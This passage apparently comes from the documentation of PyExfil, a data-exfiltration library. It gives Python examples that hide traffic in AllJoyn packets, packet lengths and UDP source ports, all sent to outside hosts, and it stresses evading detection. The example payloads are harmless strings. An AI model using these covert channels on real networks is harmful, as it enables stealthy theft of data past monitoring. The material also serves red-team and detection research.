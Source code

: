 This protocol is very prevalent with many smart homes/equipment providers and would be expected to have presence on the LAN. Currently we are not aware of a product/software that analyzes it for security anomalies.

```python
import uuid

from pyexfil.Comm.AllJoyn import Send, ALLJOYN_PORT

Send(
		dst_ip = "8.8.8.8",
		from_ip = "1.1.1.1",
		data = 'Now online',
		src_port=ALLJOYN_PORT,
		session_id=uuid.uuid4().hex
)
```

#### Packet Size
This one can almost only be used for communication rather than data exfiltration. The idea is to take data, convert it into bytes and then encode these bytes as length in a packet. For example, the string `EXFL` will be converted into `["EX", "FL"]` which will be `[[69, 88],[70, 76]]` which will end up being two packets:

```python
69*"0" + "\x00" + 88 * "1" + "\x00"
```

```python
70*"0" + "\x00" + 76 * "1" + "\x00"
```

Which is why, as said before, we highly recommend using this method over HTTPS (as implemented here) and using it to relay key codes (i.e., `EX` will mean `exfiltrate` in both sides).

```python
#!/usr/bin/env python3

from pyexfil.Comm.packet_size import Send

# Send with encryption & compression (WHY?!)
a = Send(dest_ip="google.com", key=None, port=443, compress=False)
check, output = a.send_string("hello") # this will also send the packets
print(a.Decode(output))

# Send without encryption or compression
a = Send(dest_ip="google.com", key="HeyDonn", port=443, compress=True)
check, output = a.send_string("hello")
print(a.Decode(output))
```

#### UDP Sport

UDP source port uses the source-port byte to send out `int`s with no body. Hopefully evading packet size detection mechanisms.
